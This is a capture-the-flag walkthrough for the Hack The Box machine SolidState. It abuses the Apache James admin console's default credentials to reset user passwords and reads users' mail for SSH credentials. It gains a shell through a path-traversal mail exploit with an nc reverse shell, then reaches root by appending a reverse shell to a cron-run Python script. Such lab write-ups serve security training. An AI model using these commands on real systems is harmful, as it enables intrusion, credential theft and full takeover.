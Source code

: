 # SolidState
**Machine ip:** 10.10.10.51

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.51 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.51`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cffe61ef-f4fa-4ed9-a7b6-151d7fc033f5)

+ The result shows that 5 ports are open:
```
Port 22: OpenSSH 7.4p1
Port 25: JAMES smtpd 2.3.2
Port 80: httpd 2.4.25
Port 110: JAMES pop3d 2.3.2
Port 119: JAMES nntpd
Port 4555: JAMES Remote Administration Tool 2.3.2
```

+ Navigate to `http://10.10.10.51/` and always start off with enumerating HTTP first.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8873f868-18e3-4fe4-9b10-4cc631320a78)

+ Directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.51/ -k -n -x html,php,txt -r -t 50
```

+ There is nothing interesting here.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a88a97d5-5224-41c7-858f-a171f12f9339)

+ James stands for Java Apache Mail Enterprise Server. James Mail Server listens on four ports which are SMTP on TCP 25, POP3 on TCP 110, NNTP on TCP 119 and TCP 4555.
+ Firstly, check TCP port 4555 because it is the James administration port.
+ `searchsploit james 2.3.2`
+ [Apache James Server 2.3.2 - Remote Command Execution](https://www.exploit-db.com/exploits/35513)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a7cb78dc-cf4a-4d77-94a9-ee7f79588aa9)

+ `searchsploit -m 35513`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c43603ab-f981-4e94-8d30-edf92e1effb1)

## Exploitation

### 1.Method:
+ Connect to port 4555 with `root`-`root` using nc: `nc 10.10.10.51 4555`
+ When you first start the TCP connection with the server, it takes a moment before you're prompted to login. Be patient!
+ List commands: `HELP`
+ To list users: `listusers`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/86624a9b-8b8d-477b-a421-5cabeabe861a)

+ Discovered 5 accounts:
```
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

+ Reset their passwords: `setpassword [username] [password] `

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/faf2449a-aab0-468f-9120-b76f41a0d3f9)

+ Connect to POP3 on TCP 110 to check mails using **telnet**.
```
telnet 10.10.10.51 110
USER james
PASS 123
LIST
```

+ There is no **james**' mail.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3ee62ffa-8051-45c4-86d4-bbfc2ee80d82)

+ `Ctrl + D` and `quit` to quit telnet and open new telnet.
+ There is no mail for **thomas**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/28dba85b-5eb7-46f7-9b3e-68b223e68704)

+ There is a mail for **john**. Use to read: `retr 1`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/92417947-5654-4752-983c-be79a936f3af)

+ Check **mindy**'s mail.
+ There are 2 mails.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5ba2891c-17c9-408d-a446-a3298b47a897)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/156327e7-c701-47f5-b872-c11f1ea4f5d0)

+ On the second mail, discovered mindy's **ssh** credentials:
```
username: mindy
pass: P@55W0rd1!2@
```

+ **Lastly**, check **mailadmin**.
+ There is no mail.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/73ddfa83-30ee-48e4-8936-8a8df777c9e1)

+ Try ssl login with `mindy`-`P@55W0rd1!2@` : `ssh mindy@10.10.10.51`
+ Get user.txt:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2afc76f7-1f35-4a2f-b398-5c0b2cea2755)

+ Alternatively, it is also possible to run ad-hoc commands through SSH using a connection string like this: `ssh username@host <command-here>`
+ `ssh mindy@10.10.10.51 'cat /home/mindy/user.txt'`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/605bb879-df74-4eed-8769-9bcc2ca54791)

+ As previously said on the second mail, access is restricted:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c8ded426-603e-4d03-860d-b2f9606647d5)

+ mindy’s shell is rbash(restricted bash shell).

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dd5f965b-922d-4a3b-90eb-b4dcdf6c6319)

+ Add `-t bash` to the SSH connection command to escape: `sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51 -t bash`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/507882d1-c29e-471e-b6fe-9320d168cd60)

### 2.Method:
+ Log back to james remote admin server: `nc 10.10.10.51 4555`
+ Create a user with the username `../../../../../../../../etc/bash_completion.d` and password `123`.
```
nc 10.10.10.51 4555
adduser ../../../../../../../../etc/bash_completion.d 123
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0dd154bd-55c6-4f9e-8d75-6e1e2628efe4)

+ Send this user an email that contains a reverse shell. The significant point here is to add **single quote** in the **MAIL FROM** field and after the **FROM** field. 
```
telnet 10.10.10.51 25
EHLO test
MAIL FROM: <'test@mail.com>
RCPT TO: <../../../../../../../../etc/bash_completion.d>
DATA
```
```
FROM: test
'
/bin/nc -e /bin/bash 10.10.14.10 5555
.
```

+ Start listener on your kali attack machine: `nc -lnvp 5555`
+ Login ssh with `mindy`:`P@55W0rd1!2@` and wait 3 minutes until get the shell.
+ Get the shell without rbash shell!

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1ab9e6be-224e-4740-ae13-3695b6317f04)


## Privilege Escalation
+ Transfer [pspy](https://github.com/DominicBreuker/pspy) to the target.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cc163b76-6979-4950-a22d-234e76fbe523)

+ Check processess, and see `python /opt/tmp.py` is being run every three minutes by root.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b73f6b8a-3828-497b-9e9c-c6a78793aaad)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dbbe8171-9b71-4205-89f5-7fccd2d3482c)

+ Cat the script.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5b3389db-2be5-499a-afba-1cdade55565b)

+ Add a reverse shell to the file:
```
echo "os.system('/bin/nc -e /bin/bash 10.10.14.10 4444')" >> tmp.py
```

+ Start listener: `nc -lnvp 4444`

+ Get the root shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bf72433f-2a2e-4170-a00d-6828eb6c7ba3)


# References & Alternatives:
+ https://vvmlist.github.io/#solidstate
+ https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/solidstate-writeup-w-o-metasploit
+ https://benheater.com/hackthebox-solidstate/
+ 
